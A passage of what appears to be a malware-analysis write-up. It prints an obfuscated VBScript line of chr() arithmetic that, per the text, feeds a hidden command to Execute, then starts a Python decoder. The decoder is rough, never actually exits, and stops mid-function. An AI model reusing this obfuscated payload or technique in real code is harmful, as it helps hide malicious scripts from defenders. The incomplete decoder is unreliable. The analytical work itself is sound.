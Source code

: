 ```visualbasic
&chr(CLng(&HA30)-2493)&chr(CLng(&H18D3)-6251)&chr(-7857+CLng(&H1EDF))&chr(-657+CLng(&H2E3))&chr(-3390+CLng(&HDB3))&chr(-6553+CLng(&H1A07))&chr(-5826+CLng(&H16E2))&chr(-567+CLng(&H259))&chr(-5399+CLng(&H157A))&chr(CLng(&H1473)-5126)&chr(24+CLng(&H4C))&chr(32960/CLng(&H406))&chr(CLng(&H1D18)-7401)&chr(105381/CLng(&H515))&chr(221824/CLng(&H1B14))&chr(136206/CLng(&HB52))&chr(341055/CLng(&HD75))&chr(289632/CLng(&H235B))&chr(-9504+CLng(&H2590))&chr(692055/CLng(&H19BF))&chr(-3239+CLng(&HD15))&chr(-7859+CLng(&H1F1A))&chr(-2106+CLng(&H85A))&chr(-3016+CLng(&HBEA))&chr(CLng(&H156B)-5451)&chr(-4032+CLng(&HFE6))&chr(309408/CLng(&H25C5))&chr(484365/CLng(&H1205))&chr(449344/CLng(&HFAC))&chr(-1842+CLng(&H7A5))&chr(86360/CLng(&H86F))&chr(997080/CLng(&H2518))&chr(CLng(&HCDA)-3249)&chr(CLng(&HD5F)-3379)&chr(-7698+CLng(&H1E32))&chr(304128/CLng(&H18C0))&chr(CLng(&H1CBB)-7311)&chr(-938+CLng(&H3CA))&chr(-9779+CLng(&H2679))&chr(CLng(&H3AC)-843)&chr(282096/CLng(&HA34))&chr(CLng(&H783)-1808)&chr(675589/CLng(&H1A21))&chr(65366/CLng(&H467))&chr(438516/CLng(&H15F6))&chr(CLng(&H5C6)-1377)&chr(83400/CLng(&H2B7))&chr(CLng(&H260D)-9625)&vbCrlf
```
## Observations
Use of `chr()` Function: The `chr()` function is used extensively, where each `chr()` argument performs arithmetic on hexadecimal and integer values.
Concatenation into a String: Each `chr()` result is concatenated to form a long string, which is then passed to Execute. This suggests that the obfuscated characters likely form a hidden script or command.
Likely Intent: The use of Execute to dynamically run a constructed string implies potential malicious intent, such as running a command or script on the machine.

---

## Step 2: Deobfuscating the chr Values
The primary challenge here is decoding each chr() function. To reveal the hidden string, each chr() argument needs to be evaluated.

### Approach
To decode each `chr()` expression:

Extract each arithmetic expression inside `chr()`.
Calculate each expression’s result to determine the ASCII value.
Convert each result to a character using `chr()` in Python.
Concatenate the decoded characters to reveal the hidden string.
Python Script for Decoding chr Expressions
Here’s the Python code used to evaluate each expression in the VBS file:

``` python

import sys

def evalExp(expr,tick):
    expr = expr.replace("H", "0x")
    if "vbCrlf" in expr:
        sys.exit
    if ")-" in expr:
        #print(")- expression")
        xd = expr.replace("-",",").split(",")
        #print(xd)
        x=eval(f"ord({xd[0]}) - int({xd[1]})")
        print(chr(x),end="")
        
    else:
        if "/" in expr:
            modified_expr = expr.replace('/', '//')
            #print("Modified Exp")
            #print(modified_expr)
            print(eval(modified_expr),end="")
            # #printf("modified exp :: ",modified_expr)
            # xd = modified_expr.replace("-",",").split(",")
            # x=eval(f"ord({xd[0]}) - int({xd[1]})")
```